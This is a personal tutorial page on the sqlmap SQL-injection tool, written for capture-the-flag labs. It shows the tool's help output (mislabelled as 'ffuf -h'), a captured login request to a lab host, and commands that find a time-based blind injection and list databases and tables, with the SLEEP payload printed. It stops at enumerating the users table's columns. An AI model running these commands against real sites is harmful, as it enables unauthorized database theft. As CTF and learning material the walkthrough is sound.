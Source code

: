 # sqlmap

The sqlmap tool makes sql injection and detection very trivial. I use this tool in capture the flag events to dump sql tables and get information. This tool also detects and reports what database management system is being used. Until recently, injection and sql injection has been the top vulnerability in the OWASP Top 10 list. This tool makes it easy to detect and fix sql injection.

## Usage

Running `ffuf -h` provided the following output:

```bash
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

Usage: python3 sqlmap [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -g GOOGLEDORK       Process Google dork results as target URLs

  Request:
    These options can be used to specify how to connect to the target URL

    --data=DATA         Data string to be sent through POST (e.g. "id=1")
    --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
    --random-agent      Use randomly selected HTTP User-Agent header value
    --proxy=PROXY       Use a proxy to connect to the target URL
    --tor               Use Tor anonymity network
    --check-tor         Check to see if Tor is used properly

  Injection:
    These options can be used to specify which parameters to test for,
    provide custom injection payloads and optional tampering scripts

    -p TESTPARAMETER    Testable parameter(s)
    --dbms=DBMS         Force back-end DBMS to provided value

  Detection:
    These options can be used to customize the detection phase

    --level=LEVEL       Level of tests to perform (1-5, default 1)
    --risk=RISK         Risk of tests to perform (1-3, default 1)

  Techniques:
    These options can be used to tweak testing of specific SQL injection
    techniques

    --technique=TECH..  SQL injection techniques to use (default "BEUSTQ")

  Enumeration:
    These options can be used to enumerate the back-end database
    management system information, structure and data contained in the
    tables

    -a, --all           Retrieve everything
    -b, --banner        Retrieve DBMS banner
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --passwords         Enumerate DBMS users password hashes
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --schema            Enumerate DBMS schema
    --dump              Dump DBMS database table entries
    --dump-all          Dump all DBMS databases tables entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

  Operating system access:
    These options can be used to access the back-end database management
    system underlying operating system

    --os-shell          Prompt for an interactive operating system shell
    --os-pwn            Prompt for an OOB shell, Meterpreter or VNC

  General:
    These options can be used to set some general working parameters

    --batch             Never ask for user input, use the default behavior
    --flush-session     Flush session files for current target

  Miscellaneous:
    These options do not fit into any other category

    --sqlmap-shell      Prompt for an interactive sqlmap shell
    --wizard            Simple wizard interface for beginner users

[!] to see full list of options run with '-hh'
```

## Examples

### With Sample Request

When I see a login form and I want to test if it vulnerable to a sql injection attack, I'll capture a login request using the developer toolbar or Burp. I'll copy that request to a file and name it `request.txt`. The sqlmap tool will take care of the rest. Here is a sample request that I have saved in the `request.txt` file:

```
POST /api/login HTTP/1.1
Host: 10.10.191.223
Content-Length: 32
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://target.thm
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=admin&password=password
```

Now running the following command will check if this form is vulnerable to a sql injection attack:

`sqlmap -r request.txt`

The sqlmap tool will examine the request and check each parameter being sent in the request. For this example it will check if username is vulnerable to a sql injection attack then it will run the same test for the password parameter. It tests the parameters by checking if it can get a timeout for the request. It will add a delay of like five seconds to each parameter request and if the response takes more than five seconds, it will know that the parameter is vulnerable to the attack and what type of database the site is using.

Some of the output from the above request and sqlmap run is as follows:

```bash
[04:55:26] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 158 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 6950 FROM (SELECT(SLEEP(5)))pDlF) AND 'Rvtz'='Rvtz&password=password
---
[04:55:47] [INFO] the back-end DBMS is MySQL
```

As mentioned before, the username parameter is vulnerable and the backend is MySQL.

### Getting Databases

Now that I know that the username parameter is vulnerable, I can start to get useful information. First, I need to know what databases are in this instance of MySQL. I run the following command:

`sqlmap -r request.txt --dbs`

After a few minutes I got the following output:

```bash
available databases [2]:
[*] gallery_db
[*] information_schema
```

### Getting Tables for a Database

There are two databases, I can now select a database and get all the tables for that database. In my example, I only care about the gallery database. So I run the following command to get all the tables in the `gallery_db` database:

`sqlmap -r request.txt -D gallery_db --tables`

This produces the following output:

```bash
Database: gallery_db
[4 tables]
+-------------+
| album_list  |
| images      |
| system_info |
| users       |
+-------------+
```

### Getting Columns for a Table

Looking at the list, users is the table that I want to start pulling data from. I'll wager that I don't need most of the columns for this table. I am going to get the columns for the users table by running the following command:

`sqlmap -r request.txt -D gallery_db -T users --columns`
